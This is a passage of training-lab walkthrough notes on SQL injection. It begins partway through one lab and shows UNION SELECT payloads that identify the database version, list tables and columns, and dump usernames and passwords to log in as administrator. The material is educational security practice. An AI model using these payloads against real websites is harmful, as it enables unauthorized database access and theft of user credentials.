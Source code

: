1. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter:`'+UNION+SELECT+NULL,'abc'--`
2. Use the following payload to retrieve the contents of the `users` table:`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

## **Querying the database type and version**

The following are some queries to determine the database version for some popular database types:

| Database type | Query |
| --- | --- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

For example, you could use a `UNION` attack with the following input:

```
' UNION SELECT @@version--
```

## **Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**

1. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:`'+UNION+SELECT+'abc','def'#`
2. Use the following payload to display the database version:`'+UNION+SELECT+@@version,+NULL#`

## **Listing the contents of the database**

For example, you can query `information_schema.tables` to list the tables in the database:

SELECT * FROM information_schema.tables

You can then query `information_schema.columns` to list the columns in individual tables:

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## **Lab: SQL injection attack, listing the database contents on non-Oracle databases**

1. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:`'+UNION+SELECT+'abc','def'--`
2. Use the following payload to retrieve the list of tables in the database:`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
3. Find the name of the table containing user credentials.
4. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
5. Find the names of the columns containing usernames and passwords.
6. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
7. Find the password for the `administrator` user, and use it to log in.
